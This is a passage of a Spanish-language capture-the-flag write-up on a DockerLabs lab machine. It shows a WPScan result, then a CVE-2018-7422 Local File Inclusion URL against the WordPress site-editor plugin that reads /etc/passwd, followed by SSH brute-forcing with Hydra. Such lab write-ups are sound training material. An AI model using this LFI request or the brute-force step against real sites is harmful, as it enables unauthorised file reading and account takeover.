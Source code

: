 ```python
[+] Elapsed time: 00:00:03
```
El escaneo de WPScan en `http://asucar.dl/` revela un servidor Apache/2.4.59 (Debian) con XML-RPC habilitado y listado de directorios activo en `http://asucar.dl/wp-content/uploads/`. El sitio utiliza WordPress versión 6.5.3 con el tema "twentytwentyfour" actualizado. Se identificó un plugin desactualizado llamado site-editor en la versión 1.1.

# Fase 3- Explotación

#### 1.1v
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/61fc8c35-937e-40a6-b787-38162928f7ff)
Encontramos un Local File Inclusion para el plugins `site-editor 1.1`.

#### 44340.txt
```
❯ searchsploit -m php/webapps/44340.txt

  Exploit: WordPress Plugin Site Editor 1.1.1 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/44340
     Path: /usr/share/exploitdb/exploits/php/webapps/44340.txt
    Codes: CVE-2018-7422
 Verified: True
File Type: Unicode text, UTF-8 text
cp: overwrite '/home/sansett/t4ifi/Maquinas/DockerLabs/Medias/asucar/scripts/44340.txt'? s
Copied to: /home/?/?/Maquinas/DockerLabs/Medias/asucar/scripts/44340.txt


❯ ls
 44340.txt
```
Lo bajamos, y dentro nos dice que para explotar esta vulnerabilidad tenemos que ejecutar de esta forma:
```
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
Y se esta forma podríamos leer el passwd.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/be81aef2-0b5e-4878-99b5-8a43bbe00bfa)
Y lo conseguimos leer. Encontramos el usuario curiosito. Y si recordamos la maquina victima tiene el puerto 22 abierto, podemos hacer fuerza bruta.

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/438a7e9f-31ee-45b8-a07b-c9f3cd4c31e3)
Y encontramos la contraseña del usuario curiosito.

# Fase 4- Privilegios
